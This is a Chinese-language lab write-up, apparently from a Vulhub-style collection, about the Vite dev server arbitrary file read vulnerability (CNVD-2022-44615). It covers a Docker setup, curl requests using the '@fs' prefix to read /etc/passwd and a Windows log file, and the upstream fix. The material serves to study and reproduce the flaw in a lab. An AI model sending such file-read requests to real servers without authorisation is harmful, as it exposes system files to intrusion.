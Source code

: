 # Vite 开发服务器任意文件读取漏洞 CNVD-2022-44615

## 漏洞描述

Vite 是一个现代前端构建工具，为 Web 项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用 Rollup 打包代码的构建命令。

在 Vite 2.3.0 版本之前，可以通过 `@fs` 前缀读取文件系统上的任意文件。

参考链接：

- https://github.com/vitejs/vite/issues/2820
- https://github.com/vitejs/vite/pull/2850

## 漏洞影响

## 环境搭建

Vulhub 执行以下命令启动 Vite 2.1.5 开发服务器：

```shell
docker compose up -d
```

服务器启动后，可以通过访问 `http://your-ip:3000` 来访问 Vite 开发服务器。

> 注意：旧版本 Vite 的开发服务器默认端口为 3000，新版本默认端口为 5173，请注意区分。

## 漏洞复现

使用标准的 `@fs` 前缀访问指定路径，可以获取文件内容。例如，服务器为 Linux，访问 `/etc/passwd`：

```shell
curl "http://your-ip:3000/@fs/etc/passwd"
```

![](images/Vite%20开发服务器任意文件读取漏洞%20CNVD-2022-44615/image-20250331090332473.png)

如果服务器为 Windows，访问 `C:\windows\debug\netsetup.log`：

```shell
curl "http://localhost:3000/@fs/windows/debug/netsetup.log"
```

## 漏洞修复

修复 [#2820](https://github.com/vitejs/vite/issues/2820)，新增选项 `serve.fsServeRoot`，将自动检测工作区根目录为 `fsServeRoot`，防止为整个文件系统提供服务。详见： https://github.com/vitejs/vite/pull/2850
